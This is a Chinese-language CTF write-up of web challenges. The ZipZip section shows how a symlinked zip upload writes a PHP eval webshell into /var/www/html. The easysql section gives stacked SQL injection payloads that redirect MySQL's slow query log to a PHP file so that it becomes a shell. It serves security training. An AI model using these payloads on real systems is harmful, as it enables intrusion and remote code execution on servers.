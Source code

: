 深育这个题不过是把白盒审计换成了黑盒，思路一模一样，就不细嗦了

参考wp：[hitconDockerfile](https://github.com/t3hp0rP/hitconDockerfile)/[hitcon-ctf-2017](https://github.com/t3hp0rP/hitconDockerfile/tree/master/hitcon-ctf-2017)/[sql-so-hard](https://github.com/t3hp0rP/hitconDockerfile/tree/master/hitcon-ctf-2017/sql-so-hard)/（有这位师傅自制的docker可以自行复现）

## ZipZip

页面源码提示：听说压缩包文件也能getshell；压缩包的一个常考点是软链接任意文件读取，不过脑子太木了没想到如何写shell进去，看了wp以后才明白

上传zip之后回显的路径是/tmp/uploads，显然无法正常访问；这里可以利用软链接将shell写入/var/www/html

首先创建一个指向/var/www/html/目录的软链接并zip压缩上传

```bash
ln -s /var/www/html/ l1
zip -ry l1.zip l1
```

然后建立一个和软链接名字相同的目录，在里面写shell，之后将这个同名的目录整个zip压缩上传

```bash
# 当前目录/var/www/html/
mkdir l1 && cd l1
echo '<?php eval($_GET['wuhu']);?>' > shell.php
cd ../	# 继续转到/var/www/html/
zip -r l2.zip ./*
```

即可写入shell

## ***WebLog

一打开就会下载一个log文件，但是没什么内容，修改get参数为`/?logname=logs/info/info.2021-11-12.log`可以得到真正的log，可以看到是java，我爬了

## easysql

> long_query_time

![image-20211114115940931](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211114115940931.png)

常用的select、单双引号、括号、分号、set、show、variables、等都没有过滤，语句闭合方式为括号，百名单为数据库记录行数，使用`1);{sqlinject}--+`可以闭合查询语句+堆叠注入

```sql
show variables like '%slow_query_log%';	# 查询慢日志记录是否开启
setglobal slow_query_log=1;	# 开启慢查询日志
setglobal slow_query_log_file='/var/www/html/helpyou2findflag.php'	# 设置慢查询日志位置
```

慢查询，顾名思义时间长的查询记录会被记录下来，我们直接把long_query_time的默认值改掉，然后写入shell

```sql
1);setglobal long_query_time=0.000001;--+
1);show variables like 'long_query_time'l--+
```
